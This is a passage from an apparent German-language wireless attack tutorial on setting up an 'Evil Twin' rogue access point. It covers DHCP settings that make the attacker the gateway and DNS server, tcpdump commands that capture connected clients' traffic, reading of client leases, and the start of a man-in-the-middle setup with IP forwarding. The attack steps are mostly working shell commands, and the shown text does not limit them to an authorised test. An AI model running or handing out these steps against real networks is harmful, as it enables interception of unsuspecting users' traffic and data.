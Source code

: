 **Was das macht:**
- DHCP-Server auf wlan0
- Vergibt IPs: 192.168.10.10 - 192.168.10.100
- Gateway (Option 3): 192.168.10.1 (wir)
- DNS (Option 6): 192.168.10.1 (wir)

#### Schritt 5: Clients verbinden sich

**Jetzt können Clients:**
- SSID sehen
- Verbinden (Open Network)
- IP bekommen
- DNS-Anfragen stellen

**Traffic monitoren:**
```bash
# In weiterem Terminal
tcpdump -i wlan0 -w /tmp/evil_twin_capture.pcap

# Oder live anschauen:
tcpdump -i wlan0 -n
```

**Connected Clients sehen:**
```bash
# Zeige DHCP-Leases
cat /var/lib/misc/dnsmasq.leases

# Output:
# 1609459200 aa:bb:cc:dd:ee:ff 192.168.10.50 iPhone *
# 1609459300 11:22:33:44:55:66 192.168.10.51 Android *
```

### Evil Twin mit Internet (MITM)

**Für vollständiges MITM mit Internet-Zugriff:**

#### Setup mit zwei Interfaces

**Annahme:**
- wlan0 = Evil Twin AP
- wlan1 = Connected zu echtem WLAN (Internet)

**Schritt 1: wlan1 mit Internet verbinden:**
```bash
# wpa_supplicant für wlan1
wpa_passphrase "EchtesWLAN" "echtesPasswort" > /tmp/wpa.conf
wpa_supplicant -B -i wlan1 -c /tmp/wpa.conf
dhclient wlan1

# Teste Internet
ping -I wlan1 -c 3 8.8.8.8
```

**Schritt 2: IP Forwarding aktivieren:**
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward

# Oder persistent:
sysctl -w net.ipv4.ip_forward=1
```
